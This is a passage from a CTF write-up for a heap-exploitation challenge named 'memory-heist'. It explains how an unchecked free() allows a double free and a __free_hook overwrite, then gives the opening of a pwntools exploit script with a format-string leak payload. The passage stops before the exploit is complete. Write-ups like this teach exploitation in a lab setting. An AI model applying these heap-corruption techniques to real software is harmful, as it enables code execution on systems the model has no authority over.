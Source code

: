 This function is pretty small, and all it does is validate, again that we don't go OOB, then `free()`s a chunk in a given `idx` slot. It also checks if the `__free_hook` has been overwritten, and this is something we will need to bypass later.

You may notice a couple things, and if you have props to you, because I didn't see this until very, very late in the CTF. We do not check the validity of any pointer we `free()`. This, combined with the fact that `free()`d chunks are never cleared could allow us to free a chunk twice. During the period between when it was last `free()`d we could have replaced crucial chunk metadata such as the size. This is what our exploit abuses.


With a combination of tricks with heap consolidation and `unsorted` bin chunks, we are able to write into `__free_hook`. Lets take a look at how this is achieved, shall we?

# Exploitation

So lets take a look at the script, minus the insane amount of comments I made trying to understand this, shall we?

```py
from pwn import *                                                                                                                    

binary = "./memory-heist"
#script = '''
#
#b *main-0x5f
#'''

# muh debugging
def attach_stop(p):
    gdb.attach(p)
    raw_input()

# allocate a chunk
def alloc(idx,size,data):
    p.sendlineafter('> ','1')
    p.sendlineafter('> ',str(idx))
    p.sendlineafter('> ',str(size))
    p.sendafter('Memory> ',data)

# free a chunk
def sice(idx):
    p.sendlineafter('> ','2')
    p.sendlineafter('> ', str(idx))

# view a chunk - this also wipes out half of our `chunks` array
def view(idx,kek):
    p.sendlineafter('> ','3')
    p.sendlineafter('[Y/N]> ',kek)
    p.sendlineafter('> ',str(idx))
    return p.recvline().split(b':')[1]

# start
if __name__ == "__main__":
    p = process(binary)
    #p = remote('35.244.10.136', 10253)

    alloc(1, 0x208,'hk')

    alloc(7, 0x2000,'hk')

    alloc(9, 0x100, 'HKHK')

    alloc(11, 0x100, '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p') # leaky chunk
```